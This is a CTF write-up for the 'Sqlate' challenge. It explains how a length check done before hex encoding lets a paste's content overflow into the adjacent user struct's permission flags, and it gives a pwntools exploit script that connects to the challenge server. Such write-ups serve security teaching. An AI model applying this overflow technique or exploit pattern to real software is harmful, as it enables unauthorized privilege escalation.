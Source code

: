 ```yaml
---
title: Sqlate
author: Sir_X
toc: true
pubDate: 2024-01-05
share: true
ogImage: true
---
```


# Sqlate

<p align="center">
  <img src="../../assets/dom-images/logo.jpg" alt="Dombusters" width="25%">
</p>

## Description
World‘s most secure paste app.

## Solution
We get the src code for the app. 
The goal is to trigger the function `action_sys` which will print the flag. 
```
void action_sys() {
    system("/usr/bin/cat flag");
}
```
Checking the programs menu we can see that there is a permission check before allowing the call to this function.
```
case '7': {
    if (!check_permissions(permission_root)) continue;

    action_sys();
    continue;
}
```
The function `check_permissions` checks the current user flag against the perms provided in the  call.  (Added some debug printf's, to see what the current perms are)
```
bool check_permissions(const int perms) {
    printf("Current Perms: %ld\n", current_user.flags);
    printf("Perms: %d\n", perms);
    printf("Current Userid: %d\n", current_user.userId);
    if ((current_user.flags & perms) != perms) {
        printf("You don't have permissions to perform this action!\n");
        if (current_user.userId == -1) {
            printf("You might need to login to unlock this.\n");
        }
        return false;
    }
    return true;
}
```
The intended way of the program is to login as admin with the randomly generated admin password to get those root privs. But since we have no way of guessing or dumping this admin password we need to find a different way to modify the privs. This leaves us with 4 functions. 
* action_create --> Creates an entry in the sqlite db
* action_update --> Updates an entry in the sqlite db
* action_info --> Shows a specific entry
* action_list --> Lists all entries

The create action just adds a new entry to the sqlite db. Even if we could somehow get an sqli it woudn't really help us much, since only the entries are managed there and not the users or permissions. 

The update code on the other hand looks interesting. Besides selecting which field (Language/Content) of the entry we want to edit we can also decide in what encoding the content should be stored.
```
printf(
    "Which modifier?\n"
    "1) None\n"
    "2) Hex\n"
    "3) Base64\n"
    "\n"
    ">"
);
```
For every encoding there is a different length check to prevent buffer overflows. Small issue with that, the length check for the hex encoding has a bug. 
```
if (c == '3') {
    char* temp = base64_encode(line_buffer);
    if (strlen(temp) > 255) err(EXIT_FAILURE, "Attempted to overflow!");
    strcpy(line_buffer, temp);
    free(temp);
} else if (c == '2') {
    if (strlen(line_buffer) > 192) err(EXIT_FAILURE, "Attempted to overflow!");
}
```
The line_buffer length is checked before its converted to HEX, therefore we can write a total of 192*2=384 bytes. But our buffer for the content only has a size of 256 bytes. 
```
struct paste {
    int rowId;
    char title[256];
    char language[256];
    char content[256];
};
```
Luckily for us the user struct of the current_user is created just below the paste struct ion the buffer. Therefore if we overwrite the content in the paste struct we can write into the current_user, which also stores the users permission flags. 
```
struct user {
    int userId;
    uint64_t flags;
    char username[256];
    char password[256];
};
```
Therefore we can control the perms the user has.
Here is the part where im not entirely sure why my exploit works. Since I did overwrite the perms flag with the default paste content terminator A0. Which results in the int perms of 16688 where the root perms should be int 256. But somehow the check_permissions still approves of my rights and gives me the flag.

![Memory Overwrite](../../assets/dom-images/image.png) 
exploit.py
```
from pwn import *

binary = './vuln'
context.binary = binary
# Local debugging
#p = gdb.debug(binary, '''
#    continue
#''')
p = remote('sqlate.chal.irisc.tf', 10000)  # Connect to the remote CTF instance

def send_menu_choice(choice):
    p.recvuntil(b'> ')
    p.sendline(str(choice).encode())

def create_paste(title, language, content):
    send_menu_choice(1)  
    p.recvuntil(b"Enter Title: ")
    p.sendline(title)
    p.recvuntil(b"Enter Language: ")
    p.sendline(language)
    p.recvuntil(b"Enter Content: ")
    p.sendline(content)

def update_paste(title, content, modifier):
    send_menu_choice(2)  
    p.recvuntil(b">")   
    p.sendline(b"2")   
    p.recvuntil(b">")   
    p.sendline(str(modifier).encode()) 
    p.recvuntil(b"Enter content: ")
    p.sendline(content)  
    p.recvuntil(b"Enter Title: ")
    p.sendline(title)  

def list_all():
    send_menu_choice(4)


raw_payload_D = b"D" * 146  

log.info("Creating initial paste...")
create_paste(b"4", b"4", b"D")

log.info("Updating paste with malicious payload...")
update_paste(b"4", raw_payload_D, 2)
list_all()

send_menu_choice(7)
p.interactive()
```

---
**Dombusters**: _Writeup written by [Sir_X](https://x.com/Sir_X72563?t=J2E1FMrckYMcUU5MNmOLpw&s=09)_
